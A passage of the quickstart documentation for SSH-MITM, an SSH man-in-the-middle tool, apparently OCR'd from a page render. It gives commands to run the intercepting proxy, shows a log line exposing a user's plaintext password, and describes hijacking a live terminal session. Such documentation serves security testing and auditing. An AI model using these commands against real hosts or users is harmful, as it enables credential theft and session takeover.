     $ cd ssh-mitm-master
    $ python -m pip install .

## Quickstart


Eager to get started? This page gives a good introduction in how to get started with SSH-MITM.

First, make sure that:

* SSH-MITM is :ref:`installed <Installation of SSH-MITM>`
* SSH-MITM is up-to-date

Let’s get started with some simple examples.


### Start the ssh-mitm proxy server


Starting an intercepting mitm-ssh server with password authentication is very simple.

All you have to do is run this command in your terminal of choice.

    $ ssh-mitm --remote-host 192.168.0.x

Now let's try to connect to the ssh-mitm server.
The ssh-mitm server is listening on port 10022.

    $ ssh -p 10022 user@proxyserver

You will see the credentials in the log output.

    2021-01-01 11:38:26,098 [INFO]  Client connection established with parameters:
        Remote Address: 192.168.0.x
        Port: 22
        Username: user
        Password: supersecret
        Key: None
        Agent: None


### Hijack a SSH terminal session


Getting the plain text credentials is only half the fun.
SSH-MITM proxy server is able to hijack a ssh session and allows you to interact with it.

Let's get startet with hijacking the session.

    $ ssh-mitm --remote-host 192.168.0.x --ssh-interface ssh_proxy_server.plugins.ssh.mirrorshell.SSHMirrorForwarder

Connect your ssh client with the ssh-mitm proxy.

    $ ssh -p 10022 user@proxyserver

When a client connects, the ssh-mitm proxy server starts a new server, where you can connect with another ssh client.
This server is used to hijack the session.
